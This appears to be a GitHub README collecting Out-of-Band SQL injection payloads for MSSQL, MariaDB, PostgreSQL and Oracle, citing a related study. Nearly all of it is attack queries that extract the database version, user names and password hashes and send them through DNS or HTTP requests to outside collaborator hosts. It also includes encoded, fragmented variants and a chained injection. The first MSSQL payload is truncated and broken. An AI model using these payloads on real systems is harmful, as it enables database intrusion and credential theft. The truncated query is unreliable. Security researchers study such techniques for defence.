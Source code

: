 # OOB-SQLi

This part is for sharing sample queries for Out-of-Band (OOB) Structured Query Language (SQL) injection purpose. The detailed discussion may refer to the following links

https://zenodo.org/record/3556347#.XeDK1tURVPY \
https://www.academia.edu/41117452/A_Study_of_Out-of-Band_Structured_Query_Language_Injection

# DNS Based Exfiltration

1. Microsoft SQL database

DECLARE @a varchar(1024); DECLARE @b varchar(1024); SELECT @a = (SELECT system_user);   SELECT @b = (SELECT DB_Name()); EXEC('master..xp_dirtree

2. MariaDB

select load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.',(SELECT+password),'.','n5tgzhrf768l71uaacqu0hqlocu2ir.burpcollaborator.net\\vfw')) 

3. PostgreSQL database

DROP TABLE IF EXISTS table_output; CREATE TABLE table_output(content text); CREATE OR REPLACE FUNCTION temp_function()RETURNS VOID AS $$ DECLARE exec_cmd TEXT; DECLARE query_result_version TEXT; DECLARE query_result_user TEXT; DECLARE query_result_password TEXT; BEGIN SELECT INTO query_result_version (SELECT current_setting('server_version')); SELECT INTO query_result_user (SELECT usename FROM pg_shadow); SELECT INTO query_result_password (SELECT passwd FROM pg_shadow); exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result_version||'.'||query_result_user||'.'||query_result_password||E'.n4sg4c5uh0t38fdncn1496qg47axym.burpcollaborator.net\\\\foobar.txt\''; EXECUTE exec_cmd; END; $$ LANGUAGE plpgsql SECURITY DEFINER; SELECT temp_function();

4. Oracle database

SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;

# HTTP Based Exfiltration

1. Oracle database

SELECT UTL_HTTP.request('http://fexvz59jd1088tjhf7y6z0onkeq4et.burpcollaborator.net/'||'?version='||(SELECT version FROM v$instance)||'&'||'user='||(SELECT user FROM dual)||'&'||'hashpass='||(SELECT spare4 FROM sys.user$ WHERE rownum=1)) FROM dual;

# Advanced OOB SQL Injection

1. Fragmentation + Encoding

DECLARE @d varchar(1024); DECLARE @T varchar(1024); SELECT @d = (SELECT SUBSTRING(CAST(SERVERPROPERTY('edition') as varbinary(max)), 1,LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))/2) FOR XML PATH(''), BINARY BASE64); SELECT @T = (SELECT REPLACE(@d, '=', '')); EXEC('master..xp_dirtree "\\'+@T+'.ophd0voy
beiseglonirht1morfx5lu.burpcollaborator.net\egg$"');                 

DECLARE @e varchar(1024); DECLARE @T varchar(1024); SELECT @e = (SELECT SUBSTRING(CAST(SERVERPROPERTY('edition') as varbinary(max)), LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))/2, LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))) FOR XML PATH(''), BINARY BASE64); SELECT @T = (SELECT REPLACE(@e, '=', '')); EXEC('master..xp_dirtree "\\'+@T+'.ophd0voy
beiseglonirht1morfx5lu.burpcollaborator.net\egg$"');                 

2. Chain of SQL Injection (Oracle DB + MariaDB)

SELECT UTL_HTTP.request('http://192.168.220.130/sqli.php?id=1%27%2b%28%28select%20load%5ffile%28CONCAT%28%27%5c%5c%5c%5c%27%2c%28SELECT%2buser%29%2c%27%2e%27%2c%28SELECT%2bpassword%29%2c%27%2e%27%2c%27jobuvs89ieon1z3f1qjkc0phk8qyen%2eburpcollaborator%2enet%5c%5cvfw%27%29%29%29%29%2b%27') FROM dual;                                                           
